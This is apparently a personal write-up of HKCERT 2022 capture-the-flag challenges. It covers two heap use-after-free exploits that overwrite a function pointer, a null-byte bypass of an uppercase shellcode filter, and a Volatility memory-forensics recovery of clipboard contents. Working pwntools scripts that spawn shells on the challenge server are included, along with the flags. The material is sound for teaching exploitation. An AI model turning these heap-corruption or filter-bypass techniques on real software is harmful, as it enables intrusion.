








Introduction
Hi! I am Jeff LIU. This is the write-ups of CTF challenges that I have completed.
UAF
Challenge details

Analysis
This program has a get_shell() function. The target of this challenge is to execute this function.
void get_shell() {
system("/bin/sh");
}
The add_animal() function will create 2 heap chunks and put in the list.
void add_animal() {
int choice;
int size;
int idx;
Animal* animal;
if (zoo.numOfAnimal >= ZOO_SIZE) {
print("[ERROR] The zoo is full.");
return;
}
for (idx = 0; idx < ZOO_SIZE; idx++) {
if (zoo.animals[idx] == NULL) {
break;
}
}
animal = (Animal*) malloc(sizeof(Animal));
print("Type of animal?");
print("1) Parrot");
print("2) Panda");
while (1) {
printf("> ");
scanf("%d", &choice);
if (choice == 1) {
animal->type = PARROT;
break;
}
if (choice == 2) {
animal->type = PANDA;
break;
}
printf("??\n");
}
animal->speak = speak;
print("How long is the name? (max: 64 characters)");
while (1) {
printf("> ");
scanf("%d", &size);
if (size >= 0 && size < MAX_NAME_SIZE) {
animal->name = (char*) malloc(size);
break;
}
printf("??\n");
}
print("Name of animal?");
printf("> ");
read(0, animal->name, size);
zoo.animals[idx] = animal;
printf("> [DEBUG] Animal is added to zone %d\n", idx);
zoo.numOfAnimal++;
}
The data structure is:
struct Animal
{
speakFunc speak;
enum AnimalType type;
char* name;
};
You can see that there is a function pointer speak which will be called after report_name() function (speak(name)). Our target is overwrite speak with the address of get_shell.
void report_name() {
<SNIP>
zoo.animals[choice]->speak(zoo.animals[choice]->name);
}
Every time a new Animal is created, the pointer will will be inserted to zoo[idx] where idx is the first NULL pointer. Hence, use-after-free (UAF) can be applied. If we can overwrite the address of speak and call report_name(), get_shell() will be called.
void remove_animal() {
int choice;
<SNIP>
free(zoo.animals[choice]->name);
free(zoo.animals[choice]);
printf("> [DEBUG] Animal is removed from zone %d\n", choice);
zoo.numOfAnimal--;
}
We want to make the malloc() allocate location to name that previous allocated to animal. Look at how GDB is executed.
Since the add_animal() request 2 heap chunks at once, the 2 chunks are allocated and freed in pairs.

As we can specify the size of the name, we can allocated name with size 0x40 (2 chunks A: 0x20, B: 0x40), then create an animal with name chunk size 0x20 (2 chunks C: 0x20, D: 0x20). Thus, if these 2 chunks are freed and add a new animal with size 0x20, the chunks A and C will be allocated. If we the name to this animal, the address of speak() of the 2nd animal will be overwritten.

Solution
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
e = ELF('./zoo')
# r = gdb.debug('./zoo', 'b* remove_animal\nc')
r = remote('chal.hkcert22.pwnable.hk', 28235)
def create(size, data):
r.sendlineafter(b'Exit\n> ', b'1')
r.sendlineafter(b'2) Panda', b'1')
r.sendlineafter(b'name? ', str(size).encode())
r.sendafter(b'animal?', data)
def delete(id):
r.sendlineafter(b'Exit\n> ', b'2')
r.sendlineafter(b'(0-9)', str(id).encode())
def report(id):
r.sendlineafter(b'Exit\n> ', b'3')
r.sendlineafter(b'(0-9)', str(id).encode())
# 0
create(0x30, b'AAAAAAAAA')
# 1
create(0x18, b'AAAAAAAAA')
# 2
create(0x18, b'AAAAAAAAA')
# 3
create(0x18, b'AAAAAAAAA')
# 4
create(0x18, b'AAAAAAAAA')
# 5
create(0x18, b'AAAAAAAAA')
# 6
create(0x18, b'AAAAAAAAA')
# 7
create(0x18, b'AAAAAAAAA')
delete(1)
delete(0)
# 8
create(0x18, p64(e.symbols['get_shell']))
report(1)
r.interactive()
Flag
hkcert22{w3L1C0me_70_World_0f_pwN_h34P_z0o}
UAF2
Challenge Details

Analysis
As the code of the challenge is similar to UAF challenge, I used diff to find the difference to save some time.

You can see there are only two main differences:
- No
get_shell()anymore but thesystem()is still used to find the current time. So, our goal this time is to modify the address ofspeak()tosystem()and the value of name to/bin/sh - The size of the name is now fixed to
0x18. Therefore, all the chunk size will be0x20, which means the attack used in UAF cannot be applied again.
But after looking into the binary, something abnormal appeared: 
Notice the fastbin show that something is corrupted. Thus, I try testing the fastbin by filling up the tcache with animals (each tcache bin can hold 7 chunk at maximum, so 4 animals will create 8 chunk and one chunk should go to fastbin instead).
This time the chunk did not go to fastbin. If we allocate a new animal, the 2 chunks created are not connected anymore. Hence, there should be some combination that shifted the chunk and write to the destinated region.
After testing different combinations, I have come up the following solution.
Solution
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
e = ELF('./zoo')
r = gdb.debug('./zoo', 'b* remove_animal\nc')
# r = remote('chal.hkcert22.pwnable.hk', 28236)
def create(data):
r.sendlineafter(b'Exit\n> ', b'1')
r.sendlineafter(b'2) Panda', b'1')
r.sendafter(b'animal?', data)
def delete(id):
r.sendlineafter(b'Exit\n> ', b'2')
r.sendlineafter(b'(0-9)', str(id).encode())
def report(id):
r.sendlineafter(b'Exit\n> ', b'3')
r.sendlineafter(b'(0-9)', str(id).encode())
# 0 - 3
for i in range(4):
create(b'A' * 0x18)
# 0 - 3
for i in range(4):
delete(3 - i)
# 4
create(p64(e.symbols['system']))
# 5 - 8
for i in range(4):
create(b'A' * 0x18)
delete(8)
delete(7)
delete(5)
delete(6)
create(b'/bin/sh\0')
report(1)
r.interactive()
Shellcode Runner 2
Challenge Details

source:
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <ctype.h>
#include <string.h>
typedef void (*void_fn)(void);
void _abort(char const * err_msg) {
printf("%s", err_msg);
exit(1);
}
void init() {
setvbuf(stdin, 0, 2, 0);
setvbuf(stdout, 0, 2, 0);
setvbuf(stderr, 0, 2, 0);
alarm(60);
}
int is_all_upper(char* s) {
for (int i=0; i<strlen(s); i++)
if (!isupper(s[i]) && !isdigit(s[i]) && s[i] != ' ')
return 0;
return 1;
}
int main() {
int SIZE = 100;
int readed_len = 0;
unsigned long rbx, rcx, rdx, rbp, rsp, rsi, rdi, r8, r9, r10, r11, r12, r13;
char *shellcode;
init();
shellcode = (char*) mmap((void *)0x13370000, SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
if ((long)shellcode == -1)
_abort("mmap failed!\n");
memset(shellcode, '\0', SIZE);
printf("\nInput your shellcode here (max: 100): ");
if ((readed_len = read(0, shellcode, SIZE - 1)) == 0)
_abort("read failed!\n");
if (shellcode[readed_len-1] == '\n') {
shellcode[readed_len-1] = '\0';
}
if (is_all_upper(shellcode) == 0) {
_abort("invalid shellcode!\n");
}
asm(
"movq %%rbx, %0;"
"movq %%rcx, %1;"
"movq %%rdx, %2;"
"movq %%rbp, %3;"
"movq %%rsp, %4;"
"movq %%rsi, %5;"
"movq %%rdi, %6;"
"movq %%r8, %7;"
"movq %%r9, %8;"
"movq %%r10, %9;"
"movq %%r11, %10;"
"movq %%r12, %11;"
"movq %%r13, %12;"
: "=r" (rbx), "=r" (rcx), "=r" (rdx), "=r" (rbp), "=r" (rsp), "=r" (rsi), "=r" (rdi), "=r" (r8), "=r" (r9), "=r" (r10), "=r" (r11), "=r" (r12), "=r" (r13): : "memory"
);
printf("Before running the shellcode:\nrax = %p\nrbx = 0x%lx\nrcx = 0x%lx\nrdx = 0x%lx\nrbp = 0x%lx\nrsp = 0x%lx\nrsi = 0x%lx\nrdi = 0x%lx\nr8 = 0x%lx\nr9 = 0x%lx\nr10 = 0x%lx\nr11 = 0x%lx\nr12 = 0x%lx\nr13 = 0x%lx\n",
shellcode, rbx, rcx, rdx, rbp, rsp, rsi, rdi, r8, r9, r10, r11, r12, r13);
asm(
"movq %0, %%rbx;"
"movq %1, %%rcx;"
"movq %2, %%rdx;"
"movq %3, %%rbp;"
"movq %4, %%rsp;"
"movq %5, %%rsi;"
"movq %6, %%rdi;"
"movq %7, %%r8;"
"movq %8, %%r9;"
"movq %9, %%r10;"
"movq %10, %%r11;"
"movq %11, %%r12;"
"movq %12, %%r13;"
:: "m"(rbx), "m"(rcx), "m"(rdx), "m"(rbp), "m"(rsp), "m"(rsi), "m"(rdi), "m" (r8), "m" (r9), "m" (r10), "m" (r11), "m" (r12), "m" (r13)
);
((void_fn) shellcode)();
}
Solution
You can see the shellcode will be checked using the is_all_upper() function, which means that only upper case alphanumerical input is accpeted.
After searching on the Internet, I found several example of uppercase alphanumerical shellcodes. However, all of the suggested shellcodes are larger than 100 bytes. Hence, they cannot be used directly.
Later, I further investigated into the is_all_upper(). I found that the size of shellcode is checked using strlen(), which means that the checking will end if it sees the 0x00 characters. As read function does not stop at any null byte, I can include a null byte to stop the checking and append the normal shellcode at the end of the null byte.
Since I don't know whether 0x00 is a valid instruction, I searched online and found this site. It has an instruction xor [dword], %eax which is '5'. I think it can mov the value of the null byte into the eax. Also, to prevent bad instruction, I pad some NOP behind the null byte. And I successfully get the shell using this code:
from pwn import *
from pwnlib import encoders
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
r = remote('chal.hkcert22.pwnable.hk', 28130)
r.recvuntil(b'(max: 100): ')
r.send(b'\x35\x00\x90\x90\x90' + asm(shellcraft.sh()))
r.interactive()
Flag
hkcert22{d41d8cd98f00b204e9800998ecf8427e33a}
Clipboard
Challenge Details

Solution
The zip file contains a Windows 7 x64.mem file. I guessed this file is the memory dump of a Windows 7 machine. As the title and description of the challenge implies that the secret is inside the clipboard of the machine, we need to peek into the data of clipboard using Volatility.
The file name implies that it is a Windows 7 x64 machine. Thus, I used the Win7SP1x64 profile:
python2 vol.py -f Windows\ 7\ x64.mem --profile=Win7SP1x64 clipboard -v
The output is the following:
<SNIP>
1 ------------- ------------------ 0x7010d 0xfffff900c3600000
0xfffff900c3600014 7b 5c 72 74 66 31 5c 61 6e 73 69 5c 61 6e 73 69 {\rtf1\ansi\ansi
0xfffff900c3600024 63 70 67 31 32 35 32 5c 64 65 66 66 30 5c 64 65 cpg1252\deff0\de
0xfffff900c3600034 66 6c 61 6e 67 31 30 33 33 7b 5c 66 6f 6e 74 74 flang1033{\fontt
0xfffff900c3600044 62 6c 7b 5c 66 30 5c 66 6e 69 6c 5c 66 63 68 61 bl{\f0\fnil\fcha
0xfffff900c3600054 72 73 65 74 30 20 43 61 6c 69 62 72 69 3b 7d 7d rset0.Calibri;}}
0xfffff900c3600064 0d 0a 7b 5c 2a 5c 67 65 6e 65 72 61 74 6f 72 20 ..{\*\generator.
0xfffff900c3600074 4d 73 66 74 65 64 69 74 20 35 2e 34 31 2e 32 31 Msftedit.5.41.21
0xfffff900c3600084 2e 32 35 31 30 3b 7d 5c 76 69 65 77 6b 69 6e 64 .2510;}\viewkind
0xfffff900c3600094 34 5c 75 63 31 5c 70 61 72 64 5c 73 61 32 30 30 4\uc1\pard\sa200
0xfffff900c36000a4 5c 73 6c 32 34 30 5c 73 6c 6d 75 6c 74 31 5c 6c \sl240\slmult1\l
0xfffff900c36000b4 61 6e 67 39 5c 66 30 5c 66 73 32 32 7b 5c 70 69 ang9\f0\fs22{\pi
0xfffff900c36000c4 63 74 5c 77 6d 65 74 61 66 69 6c 65 38 5c 70 69 ct\wmetafile8\pi
0xfffff900c36000d4 63 77 31 30 35 38 33 5c 70 69 63 68 31 30 35 38 cw10583\pich1058
0xfffff900c36000e4 33 5c 70 69 63 77 67 6f 61 6c 36 30 30 30 5c 70 3\picwgoal6000\p
0xfffff900c36000f4 69 63 68 67 6f 61 6c 36 30 30 30 20 0d 0a 30 31 ichgoal6000...01
0xfffff900c3600104 30 30 30 39 30 30 30 30 30 33 32 32 62 39 30 35 000900000322b905
0xfffff900c3600114 30 30 30 30 30 30 66 39 62 38 30 35 30 30 30 30 000000f9b8050000
0xfffff900c3600124 30 30 30 34 30 30 30 30 30 30 30 33 30 31 30 38 0004000000030108
0xfffff900c3600134 30 30 30 35 30 30 30 30 30 30 30 62 30 32 30 30 00050000000b0200
0xfffff900c3600144 30 30 30 30 30 30 30 35 30 30 30 30 0d 0a 30 30 000000050000..00
0xfffff900c3600154 30 63 30 32 66 34 30 31 66 34 30 31 30 33 30 30 0c02f401f4010300
0xfffff900c3600164 30 30 30 30 31 65 30 30 30 34 30 30 30 30 30 30 00001e0004000000
0xfffff900c3600174 30 37 30 31 30 34 30 30 30 34 30 30 30 30 30 30 0701040004000000
<SNIP>
The starting part of this memory shows that it is an RTF file. Therefore, we need to find a way to dump this file. I used a python script to write the bytes to a file.
file_string = ""
with open('result_copy', 'r') as f:
lines = f.readlines()
count = 1
for line in lines:
s = ''
line = line[19:67]
for i in range(16):
try:
s += chr(int(line[i * 3 : (i + 1) * 3], 16))
except ValueError:
pass
file_string += s
count += 1
print(file_string)
with open('result.rtf', 'w') as f:
f.write(file_string)
Now open this file in Microsoft Word. The file contains an image with flag. Goal! 
Flag
hkcert22{f0r3ns1c_1s_fun_t0_p14y_w1th}